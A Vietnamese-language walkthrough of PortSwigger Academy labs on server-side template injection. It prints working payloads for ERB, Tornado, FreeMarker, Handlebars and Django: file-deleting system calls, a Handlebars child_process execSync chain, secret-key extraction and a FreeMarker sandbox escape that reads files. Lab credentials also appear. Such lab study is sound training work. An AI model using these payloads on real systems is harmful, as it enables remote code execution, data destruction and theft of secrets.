





# [Lab 1: Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)


Đọc qua yêu cầu:

- Sử dụng `ERB template`

- Goal: RCE, delete `moracle.txt` từ Carlos's home directory --> `rm /home/carlos/morale.txt`


2 chức năng

1. `Home`

2. `View details`

chưa thấy có chức năng nào có reflected, thử test `View details`, khi nhấn view details --> `Unfortunately this product is out of stock`





--> reflected đây, tìm template xem có đúng là `ERB template` không


--> `ERB template`

--> payload: thực thi câu lệnh hệ thống `<%= system('rm /home/carlos/morale.txt') %>`


solve the lab


> **Test bằng Intruder add Position và Scan**


> **Test bằng Active Scan**

ra `OS command injection` --> có thể thực hiện RCE


# [Lab 2: Basic server-side template injection (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)


- Using `Tornado` template

- goal: RCE, `rm /home/carlos/morale.txt`


3 chức năng

1. `Home`

2. `My account`

login with `wiener:peter`, --> `update preferred name`


3. `View post`

có chức năng `Comment`


khi comment xong sẽ các đối số bị paramater --> comment hoặc là name


ta test update name trước


chính là `Tornado`


--> {{os.system('rm /home/carlos/morale.txt')}}





solve the lab


> **Test bằng Active Scan**


# [Lab 3: Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)


- goal: RCE, `rm /home/carlos/morale.txt`


3 chức năng

1. `Home`

2. `My account`

login with `content-manager:C0nt3ntM4n4g3r`


3. `View details`

login xong vào `View details` sẽ có chức năng mới `Edit template`


vào xem thử


ta thấy template như nào thì view sẽ hiện ra như vậy --> reflected --> test


--> có thể là `FreeMarker`



--> chắc chắn luôn rồi

now test OS command: `${"freemarker.template.utility.Execute"?new()("id")}`

ok thành công thực hiện OS command


now `rm /home/carlos/morale.txt`

solve the lab


> **Test bằng Active Scan**


phát hiện ra cả `Reflected XSS` nhưng bài này chưa cần quan tâm

# [Lab 4: Server-side template injection in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)


- goal: xác định template, RCE, `rm /home/carlos/morale.txt`


2 chức năng

1. `Home`

2. `View details` 1 sản phẩm bất kỳ, ta thấy message


request call message, ta thấy đã có reflected ở đây


test `{{7*7}}`


ta thấy lỗi --> xác định được template là `Handlebars`


--> payload RCE

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```


now `rm /home/carlos/morale.txt`


solve the lab


> **Test bằng Intruder add Position Scan**





# [Lab 5: Server-side template injection with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)


**- goal: steal and submit the framework's secret key**


có 3 chức năng

1. `Home`

2. `My account`

login with `content-manager:C0nt3ntM4n4g3r`


3. `View details`

login xong vào `View details` sẽ có chức năng mới `Edit template`


vào xem thử


ta thấy template như nào thì view sẽ hiện ra như vậy --> reflected --> test

phát hiện lỗi --> template: `django`


search google --> tìm payload get `SECRET_KEY` --> `{{settings.SECRET_KEY}}`

[](https://gitbook.seguranca-informatica.pt/fuzzing-and-web/server-side-template-injection-ssti)


submit and solve the lab


> **Test bằng Intruder add Position Scan**


# [Lab 6: Server-side template injection in a sandboxed environment](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment)


**- goal: break out of the sandbox to read the file `/home/carlos/my_password.txt` and submit**


có 3 chức năng

1. `Home`

2. `My account`

login with `content-manager:C0nt3ntM4n4g3r`


3. `View details`

login xong vào `View details` sẽ có chức năng mới `Edit template`


vào xem thử


ta thấy template như nào thì view sẽ hiện ra như vậy --> reflected --> test


phát hiện lỗi --> tìm được template `FreeMarker`



bị block rồi --> bypass: 

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
Convert the returned bytes to ASCII

```

ta được chuỗi ASCII


convert to text


submit and solve the lab


> **Test bằng Active Scan**


# [Lab 7: Server-side template injection with a custom exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit)


> **Test bằng Active Scan**

